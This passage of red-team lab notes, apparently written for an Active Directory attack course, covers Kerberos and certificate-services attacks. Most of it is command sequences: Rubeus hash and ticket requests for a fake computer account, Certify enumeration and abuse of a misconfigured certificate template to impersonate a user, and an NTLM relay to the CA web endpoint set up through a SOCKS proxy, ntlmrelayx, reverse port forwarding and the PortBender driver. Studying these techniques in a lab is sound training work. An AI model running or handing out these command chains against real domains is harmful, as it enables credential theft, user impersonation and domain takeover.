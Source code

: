 ```powershell
PS> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /password:<password> /user:EvilComputer$ /domain:dev.cyberbotic.io

11. Use the Hash to get TGT for our fake computer, and rest of the steps remains same
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:EvilComputer$ /aes256:<aes256> /nowrap
```
## Active Directory Certificate Services
### Enumerate ADCS
```powershell
# Finding Certificate Authorities
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe cas

# Miconfigured Certificate template
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```
### Attack Case 1: `_ENROLLEE_SUPPLIES_SUBJECT_`
```powershell
beacon> getuid
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:nlamb

ubuntu@DESKTOP-3BSK7NO ~> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

ubuntu@DESKTOP-3BSK7NO ~> cat cert.pfx | base64 -w 0

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIIM7w[...]ECAggA /password:<password> /nowrap
```
### Attack Case 2 : `NTLMRelay` on CA web endpoint
```powershell
# NTLM Relaying to ADCS HTTP Endpoints
- Web End point for certificate services is at http[s]://<hostname>/certsrv.
- Redirect the NTLM auth traffic using PrintSpool attack from DC to CA (if services running on seperate system) to fetch the DC Certificate
- But if they are both running on same server then we can execute the attack targetting a system where unconstrained delegation (WEB) is allowed, and force it to authenticate with CA to capture its certificate
- Do the same setup for ntlmrelayx and use print spooler to force DC/WEB to authenticate with wkstn2

1. Setup socks proxy (beacon session)
beacon> socks 1080 socks5 disableNoAuth socks_user socks_password enableLogging

2. Setup Proxychains to use this proxy
$ sudo vim /etc/proxychains.conf
socks5 127.0.0.1 1080 socks_user socks_password

3. Execute NTLMRelayx to target the certificate server endpoint
attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t https://10.10.122.10/certsrv/certfnsh.asp -smb2support --adcs --no-http-server

4. Setup reverse port forwarding (System shell)
beacon> rportfwd 8445 127.0.0.1 445

5. Upload PortBender driver and load its cna file (System shell)
beacon> cd C:\Windows\system32\drivers
beacon> upload C:\Tools\PortBender\WinDivert64.sys
beacon> PortBender redirect 445 8445

```